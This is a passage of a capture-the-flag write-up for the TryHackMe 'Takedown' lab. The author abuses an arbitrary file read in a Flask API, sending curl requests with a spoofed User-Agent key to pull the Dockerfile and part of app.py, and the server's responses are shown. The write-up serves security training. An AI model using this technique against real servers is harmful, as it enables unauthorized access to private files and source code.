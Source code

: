 OHH!!! I have **arbitrary file read**!

When I try to read a non-exist file, it shows me a status 500 error message.

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5" -H "Content-Type: application/json" -X POST -d '{"file":"nothing"}' http://takedown.thm.local/api/agents/otyu-ekzt-jnhz-pqgg/upload
<!doctype html>
<html lang=en>
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```

Then, I googled about this message, and I found a [StackOverflow post](https://stackoverflow.com/questions/10219486/flask-post-request-is-causing-server-to-crash) that saying this is a **Flask backend web application**.

Also, **I suspect that this Flask app is running on a docker container, so I took a look at the `Dockerfile`**, which contains all the commands a user could call on the command line to assemble an image.

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5" -H "Content-Type: application/json" -X POST -d '{"file":"Dockerfile"}' http://takedown.thm.local/api/agents/otyu-ekzt-jnhz-pqgg/upload
FROM python:3.8-slim-buster

WORKDIR /python-docker

COPY requirements.txt requirements.txt
RUN pip3 install -r requirements.txt

COPY . .

CMD [ "python3", "app.py"]
```

Hmm... **That `app.py` looks like a Flask file! Let's read that file!**

```py
┌──(root🌸siunam)-[~/ctf/thm/ctf/Takedown]
└─# curl -A "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0 z.5.x.2.l.8.y.5" -H "Content-Type: application/json" -X POST -d '{"file":"app.py"}' http://takedown.thm.local/api/agents/okpj-pigz-ypeu-fwaf/upload
import logging
import sys
import json
from threading import Thread
import re
import random
from os import system

import flask
from flask import request, abort
from flask_cors import CORS

HEADER_KEY = "z.5.x.2.l.8.y.5"

command_list = []
command_to_execute_next = ""
command_stack_reset_flag = False
agg_commands = open('aggressor.txt', 'r')
lines = agg_commands.readlines()
```